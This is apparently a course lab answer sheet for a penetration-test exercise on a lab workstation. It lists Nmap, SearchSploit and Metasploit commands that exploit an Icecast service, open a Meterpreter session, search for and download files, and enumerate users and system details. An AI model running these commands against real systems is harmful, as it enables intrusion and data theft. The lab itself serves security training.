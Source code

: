 ### Penetration Test Engagement Report

- [Report_10152021](Resources/Report.docx)
 

We've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > **ANS:** `nmap -sS -sV -O 192.168.0.20`  
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > **ANS:** **_`searchsploit icecast`_**  
  

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **_`msfconsole`_**  
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **_`search icecast`_**  
     ![4](/Images/PNG)  
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **_`use 0`_**  
     ![4_1](/Images/PNG)  
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **_`set RHOST 192.168.0.20`_**  
     ![5](/Images/PNG)  
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **_`exploit`_**  
     ![6](/Images/PNG)  
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **_`search -f *secretfile*.txt`_**  
     ![6_1](/Images/PNG)  
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **_`search -f *recipe*.txt`_**  
      ![7](/Images/PNG)  
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: **_`download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’`_**  
      ![Download recipe.txt](/Images/download-C-users-IEUsers-Documents-Drinks-recipe-txt.PNG)  
      ![Download secretfile.txt](/Images/download-C-users-IEUsers-Documents-user-secretfile-txt.PNG)  
 
8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
   
      > Answer: **_`run post/multi/recon/local_exploit_suggester`_**  
      ![8](/Images/Uncovering-additional-vulnerabilities.PNG)  


#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **_`run post/windows/gather/enum_logged_on_users`_**  
  ![Run Enum Logged on Users](/Images/Enumerating-logged-on-users.PNG)  

     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **_`shell`_**  
  > **_`systeminfo`_**
    ![Shell / systeminfo](/Images/systeminfo.PNG)  
 
C. Run the command that displays the target's computer system information:

   > Answer: **_`sysinfo`_**  
   ![Sysinfo](/Images/sysinfo.PNG)  

---
